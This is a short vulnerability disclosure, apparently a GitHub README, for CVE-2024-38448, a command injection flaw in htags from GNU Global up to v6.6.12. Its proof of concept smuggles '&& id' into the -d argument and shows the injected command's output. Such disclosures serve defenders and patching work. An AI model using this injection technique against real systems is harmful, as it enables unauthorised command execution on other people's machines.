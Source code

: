 

## CVE-2024-38448

htags (a part of GNU Global) versions up to v6.6.12 are vulnerable to system command injection due to improper input validation on arguments supplied by the users.

## PoC

```shell
$ htags --suggest2 -d '&& id'
// SNIP
uid=1000(user1) gid=1000(user1) groups=1000(user1),24(cdrom),25(floppy),27(sudo)
htags: GPATH, GTAGS and/or GRTAGS not found. Please reexecute htags 
with the -g option.
$
```
